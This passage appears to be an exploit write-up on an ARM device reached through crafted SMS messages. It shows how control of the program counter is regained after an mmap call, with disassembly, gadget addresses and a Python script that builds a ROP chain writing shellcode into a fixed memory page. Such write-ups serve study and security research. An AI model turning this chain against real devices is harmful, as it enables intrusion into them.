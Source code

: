 ### Gaining back PC Control
The main problem was that `mmap` assumed to be called with a `BLX`, ergo it will return to the value inside the `lr` register. 
For whatever reason that I do not know `lr` register was set to `0x3f` so a direct jump to `mmap` would cause a crash at the end.
Instead of jumping directly to `mmap` then, we can use a call of `mmap` that is already in the program somewhere.
This, after the execution of the `mmap`, would continue the execution in that part of the program.
Then we just need to have the program not crashing before reaching another return that do not use link register.
I jumped to `0x00013E0C +1`.

```c
.text:00013E04 200 MOV.W           R2, #3  ; prot
.text:00013E08 200 ADD             R1, R5  ; len
.text:00013E0A 200 STR             R5, [R4,#0x58] ; Store to Memory
.text:00013E0C 200 BLX             mmap    ; Branch with Link and Exchange (immediate address)
.text:00013E10 200 ADDS            R3, R0, #1 ; Rd = Op1 + Op2
.text:00013E12 200 STR             R0, [R4,#0x5C] ; Store to Memory
.text:00013E14 200 BEQ.W           loc_140F0 ; Bran
```
To ensure that the execution would continue without crashing, I tried to set most registers to `address`. In this way, instructions differentiating those registers would not end up crashing.
This actually (and surprisingly) worked. I manually executed my payload with gdb until the program was popping another value from the stack to the `PC` register. 
I save the address did some math to understand how far it was from the vulnerable buffer. With an sms in position `8` we can gain back control of `PC` register.

### Second Payload
At this point, we have a page in the memory space with a fixed address where we can write and jump into.

We need some reliable way to copy a shellcode into this memory and jump to it.
I tried for several hours to build a call to memcpy but I was not able to put a stack address into `r1` register. (`r1` is the source register because of the calling convention of amr32).

Thankfully marcof came out with the idea of building a ropchain that write the shellcode into memory using registers.

This is the type of gadget that you need:

```python
# 0x00013568 : str r4, [r3] ; mov r0, r1 ; pop {r4, pc}
storer4r3 = 0x00013568
```

You put 4 bytes that you want to write in `r4` and the address where to write in `r3` and keep doing that until the whole shellcode is written.

The challenge here was to have a chain not too long, because we were close to env variable on the stack, overwriting env was ending in a crash because used by some time function.

After several iterations we end up with this script to generate such chain:
```python
ropchain_second += p32(r4pop+1) #r4
ropchain_second += shellcode[0:4] #r4
for x in range(0, len(shellcode), 4):
    spiece_next = shellcode[x+4:x+8]
    if x >= len(shellcode)-4:
        spiece_next = p32(address+1) # These put jumping address in r4
        print "done"
    ropchain_second += p32(popr3+1) #pc
    ropchain_second += p32(address+x) #r3 value
    ropchain_second += p32(storer4r3+1) #pc
    ropchain_second += spiece_next #r4
#add jump to address
ropchain_second += p32(blxr4+1)
```
